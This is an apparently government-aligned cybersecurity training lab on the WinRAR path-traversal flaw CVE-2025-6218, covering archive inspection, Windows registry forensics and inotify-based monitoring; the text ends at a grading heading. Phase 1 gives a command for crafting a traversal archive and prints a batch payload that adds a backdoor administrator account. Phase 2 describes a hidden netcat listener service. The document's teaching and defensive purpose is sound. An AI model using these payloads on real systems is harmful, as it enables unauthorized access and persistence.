 # Weaponized Archive Files: Extract at Your Own Risk

In June 2025 <a href="https://nvd.nist.gov/vuln/detail/CVE-2025-6218" target="_blank">CVE-2025-6218</a> was published to the National Vulnerability Database (NVD). This vulnerability, specifically found in the Windows version of WinRAR, an archive extraction tool, exemplifies how path (directory) traversal, code execution, and the context of the user impact the severity of a potential exploit

The NVD states:

"RARLAB WinRAR Directory Traversal Remote Code Execution Vulnerability. This vulnerability allows remote attackers to execute arbitrary code on affected installations of RARLAB WinRAR. User interaction is required to exploit this vulnerability in that the target must visit a malicious page or open a malicious file. The specific flaw exists within the handling of file paths within archive files. A crafted file path can cause the process to traverse to unintended directories. An attacker can leverage this vulnerability to execute code in the context of the current user."

A refresher on path traversal attacks and security best practices is provided to start. The lab walks through an example of a weaponized archive file and how you can perform analysis on archive files to ensure they do not contain malicious code. Then, it demonstrates an example exploit against a vulnerable Ubuntu system and how to monitor for such actions.

| &#9201; LAB TIME |
|---|
| This lab is expected to take 30 minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION |
|---|
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Review path traversal attacks
 - Recognize context-based code execution
 - Analyze a weaponized archive file
 - Demonstrate a weaponized archive exploit

## Learner Expectations

 - Learners should be comfortable with command-line operations

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 5 (Incident Detection and Response) by detecting weaponized files through file analysis.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Defensive Cybersecurity, Digital Forensics, Incident Response, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T0397</a>: Perform Windows registry analysis
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1348</a>: Distinguish between benign and potentially malicious cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1487</a>: Perform file and registry monitoring on running systems

<!-- cut -->

# Scenario

Given a Kali Linux workstation, investigate how archive files behave when extracted. Then, demonstrate methods of inspecting archive files and develop a monitoring and logging service to detect suspicious file extractions. 

Network diagram:

![Network diagram for Weaponized Archive lab](./img/network-diagram.png)

The lab environment consists of the following systems:
 
 - A Kali workstation for analyzing a weaponized archive
 - An Ubuntu Desktop to serve as the victim of a weaponized archive

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali | user | tartans |
| Ubuntu Desktop | Ubuntu |user | tartans|


<!-- cut -->

## Introduction

This section provides a review of path traversal and code execution as it applies to user context. After going over these concepts, we explore CVE-2025-6218 and how these concepts are leveraged in the vulnerability. This initial section is a 5-minute read and contains two (2) Knowledge Check questions at the end.

<details>
<summary>
<h3>Path Traversal</h3>
</summary>
<p>

Path traversal (also known as directory traversal) is a type of attack that attempts to gain access to files or data outside of the intended directory scope. Web services such as Apache assume a common `DocumentRoot` for serving content. By default, users cannot access files outside of that directory unless the server is explicitly configured to allow it (e.g., with Alias or Directory directives). Directory traversal attacks typically exploit vulnerabilities in web applications (such as unvalidated file path inputs) rather than bypassing a service like Apache's own restrictions. Directory traversal attacks are also possible in file servers, APIs, and web-based CLIs. 

For example, if the `DocumentRoot` of a site was set to `/var/www/html/mysite/` and traversals were allowed for some reason, browsing to `http://mysite.org/../../../../etc/shadow` could expose sensitive data in the local system's shadow file. The syntax of `../` means to go up one directory. If you go up four directories from `/var/www/html/mysite/` you land in the root of the filesystem `/`. From here, the URL interprets the rest of the given path as `/etc/shadow` and that is the shadow file itself, which contains account names and password hashes.

For more information on website path traversals, refer to <a href="https://owasp.org/www-community/attacks/Path_Traversal" target="_blank">OWASP's Path Traversal</a> page.

System path traversals are more generic in nature and do not need to be web-based or refer to a particular site's `webroot`. An executable may be intended to run within the current working directory only. A common command in Unix and Linux for "jailing" or isolating a process to a specific working directory is `chroot`. This command, combined with other filesystem permissions, would prevent the process from accessing or writing data outside of the process' new working directory. If the process is not isolated, it might be able to access or write data elsewhere on the system. Sometimes this access is necessary, but the best practice by default would be to isolate process working paths and directories whenever possible to limit unintended read/writes elsewhere on the system.

There are many unintended consequences to directory or path traversal vulnerabilities, such as: 
 - Unauthorized reading of sensitive data 
 - Unauthorized writing or overwriting of data 
 - Bypassing authentication or access controls/permissions 
 - Gaining information about an application or system 
 - Executing remote code (if file upload/inclusion or script execution is possible) 
 - Escaping the application to access the underlying system 

</p>
</details>

<details>
<summary>
<h3>Code Execution and User Context</h3>
</summary>
<p>

When code executes, it tends to run with the permissions and privileges of the user who launches the process, command, or application. As Windows users, think about User Account Control (UAC) prompts that request administrative privileges. Have you ever tried to run a program and were told you didn't have permissions to do so? Have you ever chosen to run a program as an administrator? If so, that process—if exploited in that context—could produce far more damaging results. 

This occurs on Unix/Linux as well. Many times, you may need to use the `sudo` option to run a command with higher privileges. If running as a standard user and using the `sudo` option, only the processes spawned by that command—including any child processes—inherit the elevated permissions. This strikes a balance between needing elevated privileges for specific tasks, but not always running in the context of the root user.

The goal of an attacker might be to execute code in the context of an administrator or root-level account, providing full system access. They can do this by compromising a standard user account and trying to elevate their privileges or exploit an application or service that runs at a higher level. This is why the best practice of running services and applications with least privilege is fundamental to security. When followed, attackers must chain together additional vulnerabilities to escalate their privileges. 

Combined with the ability to perform path traversal attacks, malicious actors could take full control of a system and access all its data. The vulnerability we are about to explore shows how both path traversal and code execution context were used to create a high-severity vulnerability in WinRAR on Windows. 

</p>
</details>

<details>
<summary>
<h3>CVE-2025-6218</h3>
</summary>
<p>

CVE-2025-6218 is a vulnerability affecting WinRAR versions prior to 7.12, including RAR, UnRAR, and UnRAR.dll, which are all built upon WinRAR. The vulnerability was included in CISA's <a href="https://www.cisa.gov/news-events/bulletins/sb25-174" target="_blank">Vulnerability Summary for the Week of June 16, 2025</a>

| &#128736; WinRAR |
|---|
| _<a href="https://www.win-rar.com/" target="_blank">WinRAR</a> is an archive extraction tool developed by RARLabs that supports a variety of archive formats across multiple operating systems. The first versions of WinRAR can be traced back to 1993. WinRAR and other versions of RAR have been released for Windows, MacOS, Linux, and even Android._ |

Although WinRAR is available on Linux and other platforms, this vulnerability specifically affects the Windows version. The vulnerability enables both path traversal and remote code execution, though in a roundabout manner. It should be noted that any proof of concept to exploiting this vulnerability requires user interaction with the archive file by extracting the contents. The archive simply being present on the system is not enough and the extraction process itself does not execute any scripts or code.

When a user extracts archive files (e.g., .zip or .rar) with WinRAR or similar tools, they typically select a destination or target directory. The extracted items are expected to land in the chosen directory. However, a specially crafted, malicious archive can manipulate file paths during extraction, causing files to be placed outside the intended target directory. For example, the archive could drop malicious executables into sensitive directories such as the Windows user's Startup folder. Files in that folder execute automatically every time the system boots, enabling attackers to establish persistence via backdoors, keyloggers, or other malware.

Attackers often deliver such malicious archives through phishing emails or compromised downloads. A user may believe they are extracting files safely, but the archive can quietly place payloads elsewhere on the system. If the extraction process is run under an Administrator account, any code triggered as a result executes with full administrative privileges, significantly amplifying the impact.

Additionally, since many archive files compress and can even encrypt the data within when password protected, web and email-based scrubbing tools typically cannot identify potential malware within, allowing malicious actors to circumvent these tools.

WinRAR versions 7.12 and later have patched this vulnerability, and no confirmed cases of active exploitation have been reported at the time of publishing this lab. Nevertheless, CVE-2025-6218 highlights how path traversal and remote code execution can intersect to create serious security risks.

Equipped with this understanding of path traversal, code execution, user context, and the WinRAR vulnerability, this lab guides you through analyzing potentially weaponized archive files before extraction. You then walk through a practical example of this type of exploit and learn how to detect and defend against similar attacks.

</p>
</details>

<details>
<summary>
<h3>Introduction Knowledge Check
</h3>
</summary>
<p>

**Knowledge Check Question 1:** *What Unix or Linux command can be used to isolate a process to a specific working directory?*

**Knowledge Check Question 2:** *What folder can be used to trigger malicious scripts and executables at boot in Windows?*

`Enter the correct answer into the corresponding question submission field to receive credit. Complete all Introduction questions before moving on to phase 1.`

</p>
</details>

## Phase 1: Exploiting WinRAR with a Weaponized Archive File

<details>
<summary>
<h3>Review Normal Archive Extraction
</h3>
</summary>
<p>

1. Open the **Kali** system console and log in with the credentials `user | tartans`, if not already logged in.

2. (**Kali**) Open the Terminal using the Desktop shortcut.

To see how a normal extraction occurs, create an archive file using RAR for Linux.

| &#128736; RAR |
|---|
| _RAR for Linux is a version of RAR available only as a command-line interface (CLI) tool._ |

3. (**Kali**, **Terminal**) Create a directory structure that would simulate our Kali Linux system path of `/etc/init.d/` and add a sample file to the directory with the following commands:

```
mkdir -p ~/Desktop/test/etc/init.d
echo "Hello" > ~/Desktop/test/etc/init.d/hello.txt
```

4. (**Kali**, **Terminal**) Check the folder contents in the file explorer by double-clicking the new folder on the Desktop.

![File explorer showing hello.txt under etc/init.d](./img/s18-image1.png)

The `hello.txt` file resides within a directory structure of `~/Desktop/test/etc/init.d/`.

5. (**Kali**, **Terminal**) Return to the Terminal and create a .rar archive file that contains the entire `/etc/init.d` directory with the following commands:

```
cd ~/Desktop/test
rar a ~/Desktop/hello.rar *
```

The `rar` command creates an archive (`-a` option) named `hello.rar` on the Desktop with the contents of the `~/Desktop/test/` directory. The command shows the following output when successful.

![Terminal output after creating hello.rar](./img/s18-image2.png)

| &#128270; ARCHIVE FILES |
|---|
| _An archive file is a container that holds one or more files and their associated metadata. An archive may have a flat structure, where all files reside at a single level, or it can preserve a hierarchical directory structure, similar to a traditional filesystem. When extracted, the archive's contents typically maintain this internal structure. Common archive file types include .zip, .rar, .7z (7-Zip), .tar, and .gz (Gzip). Many archiving tools also provide data compression to reduce file size and may offer encryption with password protection for added security._ |

6. (**Kali**, **Terminal**) You can list the contents of the .rar file with the following command:

```
unrar l ~/Desktop/hello.rar
```

Notice that the content structure in the `unrar` output mirrors the output of the archiving `rar` command.

![Terminal output after creating hello.rar](./img/s18-image3.png)

The directory structure of the archive looks like this:

```
hello.rar
├── etc/
│   └── init.d/
│       └── hello.txt
```

7. (**Kali**, **Terminal**) Let's try to extract the archive to the Desktop with the following command:

```
cd ~/Desktop
unrar x ~/Desktop/hello.rar
```

The contents do not go to the system's `/etc/init.d/`. Instead, they are placed in a path relative to the target path. Because we did not specify a target path, the target path was the Desktop itself, where the initial .rar file resides.

![Extracted contents appear on Desktop](./img/s18-image4.png)

8. (**Kali**, **Terminal**) Let's try a new extraction path of `/` by using the following command:

```
unrar x ~/Desktop/hello.rar /
```

The intent is to extract (`-x` option) the contents to the root filesystem directory of `/` and thus be able to extract the `hello.txt` file to `/etc/init.d`. However, the command fails due to a permissions error.

![Extraction to root fails without sudo](./img/s18-image6.png)

9. (**Kali**, **Terminal**) Repeat the extraction again, but this time use the `sudo` option since the system directory of `/` requires root privileges. When prompted, enter the sudo password of `tartans`.

```
sudo unrar x ~/Desktop/hello.rar /
```

![Successful extraction using sudo](./img/s18-image5.png)

10. (**Kali**, **Terminal**) You can verify success with the following command:

```
sudo cat /etc/init.d/hello.txt
```

Since we can read the file in this location the extraction was successful, but with the following caveats:
 - We extracted the contents with elevated privileges (i.e., as root).
 - We intentionally and knowingly extracted the archive contents directly to the `/etc/init.d` directory.

Therefore, the extraction to a protected system path required 1) elevated privileges and 2) purposeful extraction to the sensitive target path. We did not perform any unintended path traversals or code execution in this test.

#### Grading Check

(**Kali-Investigator, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the `Kali` system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

![Grading check page for Phase 1](./img/gc1.png)

**Grading Check 1:** Verify the contents and structure of the hello.rar file and that the contents were successfully extracted to the `/etc/init.d` directory
 - `hello.rar` is found on the Desktop and has the expected structure.
 - `hello.txt` exists in the `/etc/init.d` directory.

**Knowledge Check Question 3:** *If a weaponized archive was extracted with path traversals enabled to the "/home/user/tmp/scripts/archive" directory, but contained an item with a relative extraction path of "../../etc/init.d/service.sh", what would the final full path of service.sh be?*

`Copy the token or flag strings to the corresponding question submission field to receive credit. Remember to answer the knowledge check question as well.`

`You should complete all phase 1 tasks before moving on to phase 2.`


Let's see how the vulnerable version of WinRAR handles a similar situation.

</p>
</details>

<details>
<summary>
<h3>Inspect the Weaponized Archive
</h3>
</summary>
<p>

| &#8505; A NOTE ON THE LAB ENVIRONMENT |
|---|
|_The Skilling Continuation Labs strive to leverage open-source systems, tools, and technologies to ensure content is as extensible as possible to all users in all domains. While this lab demonstrates a vulnerability found in the Windows version of WinRAR and shows imagery of a Windows environment, you will not be interacting with any Windows operating systems within the lab due to licensing restrictions._ |

1. (**Kali**) Open Firefox and browse to `https://skills.hub` if the page does not open automatically. Then click on the "Hosted Files" link.

2. (**Kali**, **Firefox**) Click on and download the `Quarterlies.zip` file from the Hosted Files page.

![Hosted Files page with Quarterlies.zip](./img/s18-image7.png)

3. (**Kali**, **Terminal**) Return to or open the Terminal and review the contents of the archive with the `unrar` command like before using the following command:

```
unzip -l ~/Downloads/Quarterlies.zip
```

The contents include four (4) Markdown files representing quarterly sales data. The content of these files is not important to us but instead notice the other item buried deep within a Windows path.

![unzip list output showing suspicious path](./img/s18-image8.png)

4. (**Kali**) Browse to the Downloads folder in the file explorer and double-click the archive file to open the Engrampa Archive Manager preview window.

![Engrampa preview showing “..” folder](./img/s18-image9.png)

| &#128736; ENGRAMPA ARCHIVE MANAGER  |
|---|
| _Engrampa Archive Manager is the equivalent to tools like WinRAR or 7-Zip and comes preinstalled on Kali distributions as a GUI-based archive management tool. Engrampa can be used to create archive files and extract contents from archive files._ |

This time the contents are a bit more obfuscated. The directory structure and path contents are not fully listed and instead we only see a single folder icon named "`..`".

5. (**Kali**, **Engrampa Archive Manager**) Drill down to the folder contents within the preview window to view the contents and full path.

![Engrampa drill-down showing Startup path](./img/s18-image10.png)

The full path of the file is "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/create-user.bat"

| &#128270; INFORMATION |
|---|
| _The Zip file was created using the command: `"C:\Program Files\WinRAR\WinRAR.exe" a -ap" \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\" %~dp0Quarterlies.zip create-user.bat`. This command creates the path structure that otherwise would not be possible. A sample of this process and a proof of concept can be found on_ <a href="https://github.com/skimask1690/CVE-2025-6218-POC" target="_blank">GitHub</a>_._ |

To explain the intended behaviors in detail, let's see what happens when this file is extracted on a Windows system running a vulnerable version of WinRAR.

</p>
</details>

<details>
<summary>
<h3>Exploiting WinRAR v7.11 on Windows</h3>
</summary>
<p>

#### Extracting the Payload

We'll assume the .zip file was downloaded from either an online web source or from an email. Therefore, the file would land in the user's Downloads folder.

![Windows Downloads folder with Quarterlies.zip](./img/s18-image11.png)

| &#8505; A NOTE ON THE LAB ENVIRONMENT |
|---|
|_While the CVE documentation states that versions of WinRAR prior to version 7.12 are vulnerable, the Windows system shown in the imagery used throughout the lab relied specifically on WinRAR version 7.11. In this way, the lab demonstrates the vulnerability using the most recent version of WinRAR that was found to be exploitable, i.e. v7.11._ |

The user would then open the archive in a vulnerable version of WinRAR. In this case, the WinRAR version is 7.11.

![WinRAR v7.11 interface](./img/s18-image12.png)

![Opening Quarterlies.zip in WinRAR](./img/winrar.gif)

Next, the user would extract the archive contents to a destination folder. By default, WinRAR creates a folder with the same name as the archive filename - "Quarterlies".

![Extraction of Quarterlies.zip](./img/extract.gif)

While the four Markdown files are extracted into a folder named Quarterlies within the Downloads folder, the .bat file is extracted into the user's Startup folder instead. If the user wasn't paying attention to the contents prior to extraction, they would likely never see this file land in their Startup folder. There isn't a visual notification that a file was extracted to a directory other than the expected target path.

#### What Just Happened?

Because of the vulnerability in WinRAR the contents of the archive are extracted based on the relative path of the contents within. Since the create-user.bat file has a relative path of "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/create-user.bat" and the user extracted the contents into a directory within their Downloads folder, the following occurred:

1. The target path was `C:\Users\Student\Downloads\Quarterlies`.

```
C:\
├── Users/
│   └── Student/
│       └── Downloads/
│           └── Quarterlies/   <---
```

2. The `../../` portion of the `create-user.bat` path changed the relative path of the extraction to the directory two levels up from the target path.
   - Two levels up from `C:\Users\Student\Downloads\Quarterlies` is `C:\Users\Student`

```
C:\
├── Users/
│   └── Student/  <---
│       └── Downloads/
│           └── Quarterlies/
```

3. The remaining extraction path begins from this location with the `create-user.bat` file landing in `AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup`, placing the file in the user's `Startup` folder even though it was never intended to go there

```
C:\
├── Users/
│   └── Student/
│       └── AppData/
│           └── Roaming/
│               └── Microsoft/
│                   └── Windows/
│                       └── Start Menu/
│                           └── Programs/
│                               └── Startup/
│                                   └── create-user.bat
│       └── Downloads/
│           └── Quarterlies/
```

4. The remaining files are placed in the target directory or path.

```
C:\
├── Users/
│   └── Student/
│       └── AppData/
│           └── Roaming/
│               └── Microsoft/
│                   └── Windows/
│                       └── Start Menu/
│                           └── Programs/
│                               └── Startup/
│                                   └── create-user.bat
│       └── Downloads/
│           └── Quarterlies/
│               └── Q1.md
│               └── Q2.md
│               └── Q3.md
│               └── Q4.md
```

You may have noticed that if the victim extracted the contents elsewhere, say directly to the Desktop, the extraction would not achieve the same effect. This .zip archive file counts on the user extracting the contents to a location two directories down from their own user profile directory. However, it doesn't matter what directory as long as it is two layers down from the user directory of `C:\Users\%USER%`. E.g. extracting to `C:\Users\Student\Documents\files` or `C:\Users\Student\Desktop\extracted-contents` would have the same intended effect.

Also note, the extraction process is agnostic to the user themselves. The same directory structure would be true for all users of the system.

In short, the pathing of the extraction must be precise, but the specific victim user does not matter as much. An actor could create multiple variations of the pathing in one archive, though this would leave artifacts on the system in random locations after the extraction process making it more likely to be caught.

#### So What?

What was the attacker able to achieve? The contents of the `create-user.bat` file are as follows:

```
net user eviluser Passw0rd! /add
net localgroup administrators eviluser /add
```

When the system next reboots, this script could be executed creating a new user named `eviluser` with a password of `Passw0rd!`, which is then added to the administrators group. This works in this case because the user that extracted the files to their Startup folder is an administrator (plus this system just happens to have UAC controls disabled).

![create-user.bat contents in editor](./img/s18-image13.png)

With this new account an attacker that already has a foothold within the environment could continue to perform info and data gathering, pivoting, and gaining persistence. This is just one simple example of what an attacker could do with this ability to exploit a path traversal vulnerability. We'll look at another example in the next phase of the lab.

Truth be told, it takes a lot of pieces falling together for this exploit to work, but this vulnerability stresses the importance of best security practices such as running with least privileges, enabling user access controls, keeping systems and software up to date, and proper logging and monitoring. While the odds of this particular exploit occurring in the wild is very low, the ramifications could be severe, hence its HIGH criticality rating.

#### Attempting to Exploit a Nonvulnerable System

Now that we've seen what happens on a vulnerable system, let's take a quick look at what would happen on an updated system.

![Extraction on patched WinRAR](./img/s18-image14.png)

This time when the archive is extracted, the contents remain in the target of `C:\Users\Student\Downloads\Quarterlies`, instead of traversing paths to extract the .bat file to the Startup folder. WinRAR simply places the directory path and file in the `Quarterlies` folder.

![Safe extraction keeps files in Quarterlies folder](./img/safe-extract.gif)

![Directory tree showing safe extraction](./img/safe-directory.gif)

```
C:\
├── Users/
│   └── Student/
│       └── Downloads/
│           └── Quarterlies/
│               └── Q1.md
│               └── Q2.md
│               └── Q3.md
│               └── Q4.md
│               └── AppData/
│                   └── Roaming/
│                       └── Microsoft/
│                           └── Windows/
│                               └── Start Menu/
│                                    └── Programs/
│                                       └── Startup/
│                                           └── create-user.bat
```

</p>
</details>

## Phase 2: Detection and Mitigation

<details>
<summary>
<h3>Inspecting Archives with xxd or Hexdit</h3>
</summary>
<p>

As shown in the previous phase of the lab, a careful eye could easily detect the pathing of an archive file's contents either via the command line using tools like unrar or in archive extraction GUI-based tools like WinRAR or Engrampa. Before extracting any unknown archive file, you should always verify and review the contents. However, even if we didn't have an archive extraction tool handy, there are other ways to investigate the contents of an archive file.

1. (**Kali**) Open Firefox and browse to `https://skills.hub` if the page does not open automatically. Then click on the "Hosted Files" link.

2. (**Kali**, **Firefox**) Click on and download the `security-update.rar` file from the Hosted Files page.

![Hosted Files page with Quarterlies.zip](./img/s18-image7.png)

3. (**Kali**, **Terminal**) Open a Terminal, if not already open, and check the contents of the archive with the following command:

```
unrar l ~/Downloads/security-update.rar
```

![unrar listing contents of security-update.rar](./img/s18-image15.png)

You see something similar to the previous Quarterlies.zip archive structure.

4. (**Kali**, **Terminal**) View the raw contents of the archive with `xxd`` with the following command:

```
xxd ~/Downloads/security-update.rar
```

![xxd hex output of security-update.rar](./img/s18-image16.png)

You can see the structure of the contents in the raw hex output of xxd. This is due to the content metadata not being part of the archive compression, and therefore; this data is visible in plaintext even though the contents of the archive themselves are not, i.e., the plaintext contents of either .bat file.

HexEdit is another common hex editor/reading tool that can view the raw contents of an archive file.

**Knowledge Check Question 4:** *How many levels does the security-update.rar archive expect to go up before matching the rest of the AppData directory structure to extract the .bat file to the Startup folder?*

In this way, we can flag potentially suspicious archive files by inspecting the internal layout of the contents and reviewing the raw metadata of the files within. Additionally, as we did in this task, you can always review or extract the contents on a system other than the intended target to ensure nothing nefarious occurs.

</p>
</details>

<details>
<summary>
<h3>Review Registry of Exploited System</h3>
</summary>
<p>

Let's say we've already extracted the contents of a weaponized archive, and we aren't sure if anything malicious occurred. We know how to check the Startup folder directly, but what about for other users? Another popular method of gaining persistence is adding malicious services. How could we check those without relying on a visual GUI and perhaps even monitor these key items for changes?

One way to do this on Windows would be through the Registry. The Windows Registry contains a plethora of system data pertaining to its configuration, settings, software, and users.

Using the `Quarterlies.zip` and `security-update.rar` archives as an example, we'll now review the registry keys that pertain to new users, startup items, and services on Windows. For this portion of the lab, we'll assume both archives were weaponized and extracted to the Student user's Startup folder. They were then triggered under the administrator context of the Student account at the next reboot.

1. (**Kali**) Open Firefox and browse to `https://skills.hub` if the page does not open automatically. Then click on the "Hosted Files" link.

2. (**Kali**, **Firefox**) Click on and download the `registry-files.zip` file from the Hosted Files page. (Don't worry! This archive file is not weaponized.)

![Firefox hosted files page](./img/s18-image7.png)

3. (**Kali**, **Terminal**) Since we are now comfortable with command line extraction of archive files, extract the registry contents to the Desktop with the following command:

```
unzip ~/Downloads/registry-files.zip -d ~/Desktop
```

Let's start with the user accounts.

4. (**Kali**) On the Desktop, double-click Fred to open it. Fred stands for Forensics Registry EDitor and it allows us to view Windows registry hives on Linux.

5. (**Kali**, **FRED**) User accounts are part of the SAM registry. SAM stands for Security Account Manager and this hive includes the domains, groups, and accounts on a Windows system. Open the SAM hive in FRED by clicking **File** -> **Open hive** and then browsing to the **Desktop**, highlighting the **SAM** hive file, and clicking **Select**.

![FRED interface opening SAM hive](./img/s18-image17.png)

*NOTE: You may want to maximize the Fred windows to the full screen for maximum visibility*

6. (**Kali**, **FRED**) Fully expand all of the branches of the SAM node on the left of the FRED window so that Domains, Aliases, Groups, Users, and their respective Names are all visible.

![FRED showing user list with eviluser account](./img/s18-image18.png)

Right away you should note the suspicious username. Based on the Last modified time, we can also tell that this account was the most recently added. If we can correlate the creation date/time to when an archive was downloaded and extracted, then there's a good chance that was the cause.

**Knowledge Check Question 5:** *What is the last modified time value for the eviluser account that was added?*

Next, let's look for evidence of startup items for this user. Unfortunately, the registry does not capture items located in the Startup folder. However, we can look directly for evidence of new services being added to the system.

7. (**Kali**, **FRED**) Repeat the process above to open a hive but this time select the SYSTEM hive file.

8. (**Kali**, **FRED**) This time, expand the **ControlSet001** -> **Services** branches of the SYSTEM node.

9. (**Kali**, **FRED**) Since we know the service would have been recently added, click on the "Last mod. time" column header to sort the entries by date in ascending order. This places the most recently updated services at the top (those last modified on August 1st, 2025).

![FRED showing SYSTEM hive services sorted by time](./img/s18-image19.png)

There are a lot of recently modified services in the list. But we know the time that the user was created and can look for services modified near or just after that time.

10. (**Kali**, **FRED**) Scroll down through the services until you find a service with a timestamp close to the time you noted in the previous question (~16:13:00)

![FRED highlighting suspicious service entry](./img/s18-image20.png)

11. (**Kali**, **FRED**) While highlighted view the actual contents of the service in the pane on the right.

![FRED details showing evilsvc with netcat command](./img/s18-image21.png)

The service spawns a netcat (nc) listener on a specific port in the background (-WindowStyle Hidden) when it runs. The service also runs with the context of the eviluser account that was previously created.

**Knowledge Check Question 6:** *What port is used by netcat as the listener in the evilsvc service?*

The end result of these archives being extracted is a new administrative user being added to the system and a listener that could provide remote access. With administrator access and a reverse shell to the system, an attacker could do a variety of things to collect information, steal data, and compromise other systems.

</p>
</details>

<details>
<summary>
<h3>Monitoring and Endpoint Detection and Response</h3>
</summary>
<p>

In the final section of the lab, you'll monitor for events like the ones above with expectations of mitigating further risk to your assets.

1. (**Kali**, **Terminal**) Open a Terminal, if not already open, and ensure the `hello.txt` file is removed from the `/etc/init.d` directory with the following command. Use the sudo password `tartans` if needed.

```
sudo rm /etc/init.d/hello.txt
```

A monitoring service has been staged in advance using `inotify-tools`. The service script has been placed in the home directory at `/home/user/initd_watch.sh`. The service file has been placed at `/etc/systemd/system/initd-watch.service`.

2. (**Kali**, **Terminal**) Edit the script with the following command:

```
sudo nano /home/user/initd_watch.sh
```

3. (**Kali**, **Terminal**, **nano**) Add the correct **WATCH_DIR** value of `/etc/init.d`. The resulting file should look like this:

```
#!/bin/bash

WATCH_DIR="/etc/init.d"
LOG_FILE="/var/log/initd_monitor.log"

echo "Monitoring $WATCH_DIR for new files..."
echo "[$(date)] Monitoring started." >> "$LOG_FILE"

inotifywait -m -e create --format '%w%f' "$WATCH_DIR" | while read NEWFILE
do
    echo "[$(date)] New file detected: $NEWFILE"
    echo "[$(date)] New file detected: $NEWFILE" >> "$LOG_FILE"
done
```

The script monitors the `/etc/init.d` directory for the creation or addition of any new files while the script is running. If a new file is found it writes a notification to a logfile located at `/var/log/initd _monitor.log`.

4. (**Kali**, **Terminal**, **nano**) Save the file by pressing **CTRL-X**, press **Y** to save to the buffer and then press **Enter** to confirm the filename.

5. (**Kali**, **Terminal**) To prevent having to run this script manually over and over, we use a service file to handle it. Edit the service file with the following command:

```
sudo nano /etc/systemd/system/initd-watch.service
```

6. (**Kali**, **Terminal**, **nano**) Add the correct **ExecStart** value of `/home/user/initd_watch.sh`. The resulting file should look like this:

```
[Unit]
Description=Watch /etc/init.d for new files
After=network.target

[Service]
Type=simple
ExecStart=/home/user/initd_watch.sh

[Install]
WantedBy=multi-user.target
```

7. (**Kali**, **Terminal**, **nano**) Save the file by pressing **CTRL-X**, press **Y** to save to the buffer and then press **Enter** to confirm the filename.

8. (**Kali**, **Terminal**) Reload systemd, enable and start the service, and verify it is running with the following commands:

```
sudo systemctl daemon-reexec
sudo systemctl enable --now initd-watch.service
sudo systemctl status initd-watch.service
```

![systemctl status showing initd-watch.service running](./img/s18-image22.png)

9. (**Kali**, **Terminal**) Re-extract the contents of `hello.rar` from the Desktop to the system root folder of `/` with the following command:

```
sudo unrar x ~/Desktop/hello.rar /
```

The monitoring script does *not* prevent new files from being created in the watched directory, it only notifies of their existence. You can verify the file has landed in the `/etc/init.d` directory with the following command:

```
sudo cat /etc/init.d/hello.txt
```

10. (**Kali**, **Terminal**) Wait a few moments and then check the log to see if it has alerted on the new file. You can view the log file with the following command:

```
less /var/log/initd_monitor.log
```

This log file could also be fed into log management tools like Elastic and the <a href="https://www.cisa.gov/resources-tools/services/logging-made-easy" target="_blank">CISA Logging Made Easy</a> solution.

Endpoint Detection and Response (EDR) tools and other types of host monitoring tools can proactively assist in watching for changes on the system such as new user accounts being created, registry changes, new services/application, and much more. Proper logging also records these events for later correlation and root cause analysis.

#### Grading Check

